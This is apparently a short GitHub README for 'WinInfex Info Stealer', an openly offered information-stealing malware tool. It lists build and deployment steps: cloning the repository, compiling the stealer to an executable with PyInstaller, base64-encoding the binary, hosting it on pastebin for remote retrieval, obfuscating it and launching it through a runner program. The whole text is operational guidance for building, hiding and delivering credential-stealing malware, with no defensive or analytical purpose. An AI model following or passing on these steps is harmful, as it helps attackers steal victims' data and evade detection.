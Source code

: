 # WinInfex Info Stealer
# Setup on PowerShell 
- git clone https://github.com/vicouncil/WinInfex
- cd WinInfex
- cd resource 
- python -m PyInstaller --onefile winInfex.py
- cd dist
- [Convert]::ToBase64String([IO.File]::ReadAllBytes("winInfex.exe")) > base64.txt
- Post base64.txt file in pastebin
- Go to directory with obfuscator
- .\obfuscator.exe
- Move your .ifx file in directory ifxrunner
- .\ifxrunner.exe filename.ifx

